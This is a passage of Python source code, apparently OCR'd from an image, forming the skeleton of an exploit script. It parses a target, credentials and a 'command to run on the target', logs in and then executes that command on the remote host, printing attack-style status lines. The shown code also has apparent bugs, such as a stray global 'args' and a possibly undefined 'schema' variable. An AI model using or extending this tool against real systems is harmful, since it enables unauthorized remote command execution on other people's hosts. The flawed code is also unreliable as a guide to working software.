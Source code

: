```python
        required=True,
    )
    parser.add_argument(
        "-c",
        "--command",
        help="The command to run on the target",
        required=True,
    )
    parser.add_argument(
        "-s",
        "--ssl",
        help="Whether or not we should use SSL",
        action="store_true",
    )

    args = parser.parse_args()
    return args


class Exploit:
    def __init__(self, args):
        self.args = args
        self.validate_args()

        self.username = self.args.username
        self.password = self.args.password
        self.command = self.args.command

    def run(self):

        print(f"[+] targeting host {self.host} on port {self.port}")
        self.url = f"{self.schema}{self.host}:{self.port}"

        login_session = self.login()
        if not login_session:
            sys.stderr.write(
                f"[!] failed to login with user '{self.username}' and pw '{self.password}'\n"
            )
            return False

        print(
            f"[+] successfully logged in with user '{self.username}' and pw '{self.password}'"
        )

        self.execute_command()
        print(f"[+] executed '{self.command}' on '{self.host}'")

    def validate_args(self):
        self.host = self.args.target

        potential_schemas = ["http://", "https://"]

        if not self.args.ssl:
            for schema in potential_schemas:
                if self.host.startswith(schema):
                    break
            else:
                self.schema = potential_schemas[0]
        else:
            self.schema = potential_schemas[bool(args.ssl)]

        self.host = self.host.removeprefix(schema)

```